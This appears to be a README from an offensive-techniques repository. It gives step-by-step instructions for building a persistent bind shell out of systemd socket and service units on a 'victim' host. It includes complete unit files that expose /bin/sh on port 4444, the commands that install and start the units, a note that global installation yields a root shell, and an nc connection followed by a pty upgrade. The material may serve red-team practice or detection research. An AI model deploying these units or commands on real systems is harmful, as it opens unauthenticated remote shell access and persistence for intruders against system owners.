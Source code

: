 # Bind Shell

## Description

This sequence of commands sets up a bind shell using a socket unit and service unit.

The service file (`bindsh@.service`) uses:

* The `StandardInput` directive to notify systemd the shell expects input from a socket connection
* The `ExecStart` directive to execute the shell when a connection is made
* The `Requires` directive to only execute this shell when started by our socket unit

The socket file (`bindsh.socket`) uses:

* The `ListenStream` directive to identify which network port to listen on
* The `FreeBind` directive to accept non-local IP connections
* The `Accept` directive to create new shells for each incoming connection
  * This is done via template services (service units with '@' in the name)

## Additional Notes

* If these units are installed in one of the global systemd folders, such as `/etc/systemd/system`, the
  shell will be started as the root user
* If `Accept` is not enabled and templates services are not used, the socket will not be able to
  properly pass input to the shell, or the shell service will not be able to start at all
* When these shell services get instantiated by systemd, they will include the local and remote IPs in their name.
  This follows the below format, where ${LHOST} is the host running the bind shell, and ${RHOST} is the host connecting:

  ```sh
  bindsh@3-${LHOST}:${LPORT}-${RHOST}:${RPORT}.service
  ```

* A "slice" is created to correlate all the processes associated with the socket:

  ```sh
  $ systemctl --user status bindsh.slice
  ● bindsh.slice
    Loaded: loaded
    Active: active since Sat 2020-02-15 20:52:47 UTC; 14min ago
    CGroup: /user.slice/user-1000.slice/user@1000.service/bindsh.slice
            └─bindsh@3-10.10.10.10:4444-10.10.10.11:54718.service
              ├─10740 /bin/sh
              ├─10791 python -c import pty;pty.spawn('/bin/bash')
              └─10792 /bin/bash
  ```

## Step by Step

1. Generate a service template file to process sh commands on the victim

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=A simple bind shell - sh half
Requires=bindsh.socket

[Service]
Type=simple
StandardInput=socket
ExecStart=/bin/sh
```

2. Generate a socket file to listen on port 4444 of the victim

```ini
; https://www.freedesktop.org/software/systemd/man/systemd.socket.html
[Unit]
Description=A simple bind shell - socket half

[Socket]
ListenStream=4444
FreeBind=true
Accept=yes
```

3. Install into the systemd user folder on the victim and reload the units

```sh
$ mkdir -p ~/.config/systemd/user/
$ ln -s `pwd`/bindsh@.service ~/.config/systemd/user/
$ ln -s `pwd`/bindsh.socket ~/.config/systemd/user/
$ systemctl --user daemon-reload
```

5. Start the TCP listener

```sh
$ systemctl --user start bindsh.socket
```

6. Connect to the victm from your machine

```sh
$ nc 10.10.10.10 4444
python -c "import pty;pty.spawn('/bin/bash')"
user@victim:~$
```

